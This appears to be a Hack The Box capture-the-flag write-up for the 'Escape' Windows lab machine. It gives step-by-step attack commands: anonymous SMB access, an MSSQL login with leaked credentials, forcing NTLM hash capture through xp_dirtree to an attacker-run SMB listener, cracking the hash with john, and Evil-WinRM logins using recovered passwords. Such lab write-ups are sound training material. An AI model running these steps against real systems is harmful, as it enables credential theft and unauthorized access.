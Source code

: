 # HTB Escape (Medium)

Target Info:
- IP: 10.10.11.202
- OS: Windows

Ping Info:
PING 10.10.11.202 (10.10.11.202) 56(84) bytes of data.
64 bytes from 10.10.11.202: icmp_seq=1 ttl=127 time=42.4 ms

Open Port:
```
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2023-06-09 16:24:36Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
1433/tcp  open  ms-sql-s      syn-ack Microsoft SQL Server 2019 15.00.2000
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49687/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49688/tcp open  msrpc         syn-ack Microsoft Windows RPC
49705/tcp open  msrpc         syn-ack Microsoft Windows RPC
49709/tcp open  msrpc         syn-ack Microsoft Windows RPC
51140/tcp open  msrpc         syn-ack Microsoft Windows RPC
51444/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```


## 139/tcp (netbios-ssn): Null Login

Login with Null and No Pass:
```
root@linux:~# smbclient //10.10.11.202/Public -U "" -N
```

Check list of files:
```
smb: \> dir
```

Download to your local:
```
smb: \> mget "SQL Server Procedures.pdf"
```

You're getting a clue in `SQL Server Procedures.pdf`. `PublicUser` with `10.10.11.202` in MS SQL Service.

## 1433/tcp (ms-sql-s)

Install `impacket-scripts`:
```
sudo apt install impacket-scripts -y
```

Login MS SQL with impacket:
```
sudo impacket-mssqlclient PublicUser:"GuestUserCantWrite1"@10.10.11.202 -p 1433 -debug
```

### Steal NTLM Response through MSSQL xp_dirtree

Create your own local SMB listener server with impacket:
```
sudo impacket-smbserver . . -smb2support
```

Or you can use `metasploit-framework` (msfconsole) to create SMB listener server.
```
msf6 > use auxiliary/server/capture/smb
msf6 auxiliary(server/capture/smb) > set srvhost <yourhost>
msf6 auxiliary(server/capture/smb) > set johnpwfile /tmp/
msf6 auxiliary(server/capture/smb) > run
```

Then abuse `MS SQL` with `xp_dirtree` query.
```
SQL> xp_dirtree '\\<yoursmblocalserver>\test'
```

Then, you will getting:
```
sql_svc::sequel:aaaaaaaaaaaaaaaa:0b7cb85c234a930248988dfc9d6c59bd:0101000000000000809e0d98ac4ad901ff2faa173808571c00000000010010004a00670079006c004a004e0064006b00030010004a00670079006c004a004e0064006b00020010007700780077006d004300610047007000040010007700780077006d00430061004700700007000800809e0d98ac4ad9010600040002000000080030003000000000000000000000000030000024fa80fc7f23b088cd542907ad48a7ebc58d9c30c768a1a4f66c1ee6118789030a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00330034000000000000000000
```

Crack the NTLM Response credential with `john`.
```
sudo john --wordlist=/usr/share/wordlists/rockyou.txt sql_svc.txt
```

## 445/tcp (microsoft-ds?)

Login with RPC Client.
```
rpcclient -U sql_svc --password=REGGIE1234ronnie -p 445 10.10.11.202
```

Enumerate domain users.
```
rpcclient $> enumdomusers
```

## Login Through 5985/tcp (Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)) using Evil-WinRM

```
sudo docker run --rm -ti --name evil-winrm oscarakaelvis/evil-winrm -i 10.10.11.202 -u sql_svc -p 'REGGIE1234ronnie' -P 5985
```

### PowerShell Commands

Check Windows OS Version
```
PS C:\Users\sql_svc\Documents> [System.Environment]::OSVersion
```

Check Users
```
PS C:\Users\sql_svc\Documents> dir C:\Users
```

Find string recursively in whole files (this command is equivalent `grep -Rn .` in Linux).
```
PS C:\Users\sql_svc\Documents> dir -Recurse C:\ 2> $null | Select-String -pattern "Ryan.Cooper" 2> $null
```

Cat a file.
```
type "C:\SQLServer\Logs\ERRORLOG.BAK"
```
```
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
```

Then, login with `Ryan.Cooper`.
```
sudo docker run --rm -ti --name evil-winrm oscarakaelvis/evil-winrm -i 10.10.11.202 -u 'Ryan.Cooper' -p 'NuclearMosquito3' -P 5985
```

Find a user.txt flag (this command is equivalent `find .` in Linux).
```
Get-ChildItem -Filter *.txt -Recurse $pwd
```
